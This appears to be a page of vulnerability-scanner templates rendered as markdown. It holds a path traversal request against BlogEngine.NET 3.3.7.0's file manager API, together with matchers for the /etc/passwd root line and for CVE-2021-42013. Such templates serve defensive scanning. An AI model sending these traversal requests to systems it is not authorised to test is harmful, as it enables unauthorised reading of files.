 ### Matchers

**Type - regex**

- name - LFI
- regex
  1. root:.\*:0:0:

**Type - word**

- name - RCE
- words
  1. CVE-2021-42013

---

# BlogEngine.NET 3.3.7.0 - Local File Inclusion

## Description

- BlogEngine.NET 3.3.7.0 allows /api/filemanager local file inclusion via the path parameter

- severity - high
- tags - cve,cve2019,blogengine,lfi,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/api/filemanager?path=%2F..%2f..%2fContent

### Matchers

**Type - regex**

- regex
  1. ~/App_Data/files/../../([a-zA-Z0-9\.\-]+)/([a-z0-9]+)

**Type - word**

- part - header
- words
  1. application/json

**Type - status**

- status
  1. 200

---

# OpenEMR 4.1 - Local File Inclusion

